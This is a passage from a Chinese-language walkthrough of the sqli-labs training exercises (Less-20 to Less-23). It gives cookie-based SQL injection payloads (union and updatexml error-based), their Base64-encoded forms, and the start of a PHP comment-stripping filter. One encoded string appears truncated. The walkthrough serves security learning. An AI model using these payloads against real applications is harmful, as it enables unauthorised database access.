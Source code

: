     闭合方式 '
    
    注入方式 联合，报错，布尔，延时
    
    注入点 cookie字段
    
    攻击测试 1' union select 1,2,version()#
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201217170649946.png)

## Less-21

    请求方式 post
    
    闭合方式 ')
    
    注入方式 联合，报错，布尔，延时
    
    注入点 cookie字段（经过Base-64编码）
    
    攻击测试 1') union select 1,2,version()#
    
    Base-64编码之后 
    W5hbWU9MScpIHVuaW9uIHNlbGVjdCAxLDIsdmVyc2lvbigpIw==
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201217212750201.png)

## Less-22

请求方式 post

    闭合方式 "
    
    注入方式 报错，布尔，延时
    
    注入点 cookie字段（经过Base-64编码）
    
    攻击测试 1" and updatexml(1,concat('^',database(),'^'),1)#
    
    Base-64编码之后 MSIgYW5kIHVwZGF0ZXhtbCgxLGNvbmNhdCgnXicsZGF0YWJhc2UoKSwnXicpLDEpIw==
    
        

## 高级注入

## 绕过去除注释符：Less-23

    if(isset($_GET['id']))
    {
    $id=$_GET['id'];
     
    //过滤# 和 --+
    $reg = "/#/";
    $reg1 = "/--/";
    $replace = "";
    $id = preg_replace($reg, $replace, $id);
    $id = preg_replace($reg1, $replace, $id);
     